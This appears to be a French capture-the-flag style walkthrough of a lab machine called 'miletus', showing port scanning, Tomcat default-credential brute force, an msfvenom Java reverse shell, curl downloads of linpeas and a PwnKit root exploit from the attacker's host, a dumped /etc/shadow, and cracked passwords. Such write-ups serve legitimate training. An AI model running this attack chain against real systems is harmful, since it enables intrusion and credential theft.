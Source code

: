 1.  <ins>Énumération</ins>

👁️ **Nmap & Masscan**

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $sudo sh massap.sh
Entrer une IP: 192.168.56.29
Entrer un rate: 1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-01-13 18:15:32 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 19:18 CET           
NSE: Loaded 150 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:18
Completed NSE at 19:18, 10.02s elapsed
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Initiating ARP Ping Scan at 19:18
Scanning 192.168.56.29 [1 port]
Completed ARP Ping Scan at 19:18, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:18
Completed Parallel DNS resolution of 1 host. at 19:18, 0.00s elapsed
Initiating SYN Stealth Scan at 19:18
Scanning 192.168.56.29 [2 ports]
Discovered open port 22/tcp on 192.168.56.29
Discovered open port 8080/tcp on 192.168.56.29
```

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit - tomcat**

Brute force avec une wordlist d’utilisateur et mot de passe par défaut

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> run

[+] 192.168.56.29:8080 - Login Successful: tomcat:role1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> 
```

&nbsp;

<ins>2.Exploitation</ins>

**<span style="color: #dddddd;"><span style="color: #dddddd;">👻</span></span> MSFvenom**

Création d’un `reverse shell` en java

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f war > revshelll.war
Payload size: 6214 bytes
Final size of war file: 6214 bytes
```

&nbsp;

**💥 Metasploit - meterpreter**

Ecoute du port `4444` pour obtenir le revershell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 192.168.56.104:4444 
[*] Sending stage (58037 bytes) to 192.168.56.29
[*] Meterpreter session 1 opened (192.168.56.104:4444 -> 192.168.56.29:60090) at 2025-01-13 19:59:11 +0100

(Meterpreter 1)(/) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> Linpeas**

Téléchargement depuis ma machine le script `bash`

```
(Meterpreter 1)(/) > cd /tmp
(Meterpreter 1)(/tmp) > shell
Process 3 created.
Channel 5 created.
bash -i
tomcat@miletus:/tmp$
tomcat@miletus:/tmp$ curl -O 192.168.56.104:8181/linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  828k  100  828k    0     0  38.5M      0 --:--:-- --:--:-- --:--:-- 38.5M
```

&nbsp;

Exploit potentiel d’élévation de privilège

```
tomcat@miletus:/tmp$ sh linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit PwnKit**

Test de l’exploit

```
tomcat@miletus:/tmp$ curl -O 192.168.56.104:8181/PwnKit
curl -O 192.168.56.104:8181/PwnKit
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 18040  100 18040    0     0  1601k      0 --:--:-- --:--:-- --:--:-- 1601k
tomcat@miletus:/tmp$ ./PwnKit
./PwnKit
id
uid=0(root) gid=0(root) groups=0(root),999(tomcat)
bash -i
root@miletus:/tmp# 
```

&nbsp;

Dump des hash utilisateur du fichier `shadow`

```
root@miletus:/tmp# cat /etc/shadow
cat /etc/shadow
root:$1$root$QBgvNQo1oG6uBsRhpHVcF0:18854:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
uuidd:*:18480:0:99999:7:::
dnsmasq:*:18480:0:99999:7:::
landscape:*:18480:0:99999:7:::
pollinate:*:18480:0:99999:7:::
sshd:*:18854:0:99999:7:::
thales:$6$Y9smI36b$guxECvhWSBfjNVrX4s6GmgZEUOWZ.jNJBcn6j2aera6OgzX87IfNz9Fz1auf3tUzylJrrw4nHt5vEQwGRMYG0/:18855:0:99999:7:::
tomcat:!:18854::::::
```

&nbsp;

**🧨 JohnTheRipper**

Crack du hash de l’user `thales` & `root`

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (thales)     
1g 0:00:12:58 DONE (2025-01-13 21:21) 0.001284g/s 3673p/s 3673c/s 3673C/s voezz..vodiensex
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john --show thales
thales:vodka06:18855:0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --wordlist=rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:04 6.22% (ETA: 21:27:20) 0g/s 237808p/s 237808c/s 237808C/s belatz..beckiere
ghost2000        (root)     
1g 0:00:00:30 DONE (2025-01-13 21:26) 0.03293g/s 255481p/s 255481c/s 255481C/s ghostgfb..ghorazz
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john thales --show
root:ghost2000:18854:0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

Cred final trouver

| User | Password |
| --- | --- |
| thales | vodka06 |
| root | ghost2000 |
